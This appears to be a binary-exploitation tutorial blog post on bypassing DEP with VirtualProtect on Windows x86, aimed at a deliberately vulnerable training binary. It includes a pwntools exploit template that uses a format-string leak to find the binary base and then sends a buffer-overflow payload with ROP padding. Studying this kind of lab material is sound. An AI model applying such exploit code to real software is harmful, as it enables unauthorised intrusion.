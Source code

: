 ```yaml
---
categories:
- Windows Userland Exploitation
image:
  path: proof.png
layout: post
media_subpath: /assets/posts/2022-06-14-bypassing-dep-with-virtualalloc-x86
tags:
- binary exploitation
- windows
title: Bypassing DEP with VirtualProtect (x86)
---
```


In the last post we explored how to exploit the rainbow2.exe binary from the [vulnbins](https://github.com/xct/vulnbins) repository using WriteProcessMemory & the "skeleton" method. Now we are going to explore how to use VirtualProtect and instead of setting up the arguments on the stack with dummy values and then replacing them, we are going to use the `pushad` instruction to push alle registers on the stack & then execute our function.

We start from the following exploit template:

```python
#!/usr/bin/env python3
from pwn import *

offset = 1032
size = 4000

p = remote('192.168.153.212',2121, typ='tcp', level='debug')
p.sendline(b"LST |%p|%p|%p|%p|")
leak = p.recvline(keepends=False).split(b"|")[1:]
binary_leak = int(leak[1].decode(),16)
binary_base = binary_leak - 0x14120;
log.info("Binary base: "+hex(binary_base))

rop_gadgets = [
      0xdeadc0de,
]

rop = b""
rop += p32(binary_base + 0x159d)*(32) # ropnop
for g in rop_gadgets:
      rop += p32(g)

log.info("Sending payload..")
buf  = b""
buf += b"LST "
buf += rop
buf += b"A" * (offset-len(rop))
buf += b"B" * 4 
buf += p32(binary_base + 0x11396)
buf += b"D" * (size-len(buf))
p.sendline(buf)
input("Press enter to continue..")
p.close() 
```
